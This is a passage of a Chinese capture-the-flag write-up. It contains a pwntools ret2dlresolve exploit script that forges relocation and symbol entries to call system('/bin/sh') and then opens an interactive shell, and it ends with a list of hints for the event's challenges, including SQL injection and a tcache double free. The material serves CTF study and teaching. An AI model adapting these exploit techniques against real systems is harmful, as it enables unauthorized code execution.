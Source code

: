 ```python
payload = b'A' * offset + p32(ret) + p32(read_plt) + p32(ppp_ret) + p32(0) + p32(base_stage) + p32(100) + \
          p32(pop_ebp_ret) + p32(base_stage) + p32(leave_ret)
r.send(payload)

align = 0x10 - ((base_stage + 40 - dynsym) % 16)
fake_sym_addr = base_stage + 40 + align  # 填充地址使其与dynsym的偏移16字节对齐（即两者的差值能被16整除），因为结构体sym的大小都是16字节
r_info = ((((fake_sym_addr - dynsym) // 16) << 8) | 0x7)  # 使其最低位为7，通过检测
fake_write_rel = flat(p32(elf.got['read']), p32(r_info))
fake_write_str_addr = base_stage + 40 + align + 0x10
fake_name = fake_write_str_addr - dynstr
fake_sym = flat(p32(fake_name), p32(0), p32(0), p32(0))

payload2 = flat(b'AAAA'
                , p32(ret)
                , p32(plt_0)
                , base_stage + 32 - rel_plt  # arg
                , p32(ppp_ret)
                , p32(base_stage + 80)
                , p32(base_stage + 80)
                , p32(7)  # len("/bin/sh")
                , fake_write_rel  # base_stage + 32
                , b'A' * align  # 用于对齐的填充
                , fake_sym  # base_stage + 40 + align
                , b'system\x00'  # 伪造出的字符串
                )
payload2 += b'A' * (80 - len(payload2)) + b'/bin/sh\x00'
payload2 += b'A' * (100 - len(payload2))
r.sendline(payload2)
r.interactive()
```
### Frank

## 比赛中放出的hint

PWN-dove 的源码已上传到群里    
Misc-ezPWD 的密码是18位身份证号  
Web-Life Restart 突破100岁是必要条件是橙色天赋"神秘的小盒子" 顺利修仙需要很高的属性 自动播放可以很快很快  
RE-Extremely slow 程序限制是一个时间常数，超时退出  
Web-BBS 注入是突破口  
RE-Random 动态调试  
  
BBS 提示 很简单的SQL注入  
Extremely slow  提示 修改最大时间限制常数  
Random 提示 动态调试获取key  
java_re 提示 第一步解法用了https://itzsomebody.xyz/2021/07/11/javaisez3-writeup.html 的解析特性  
wish 提示 ret2dlresolve  
Double Frank 提示 双指针数组模拟环状队列;特殊情况Double Free;构造tcache dup  
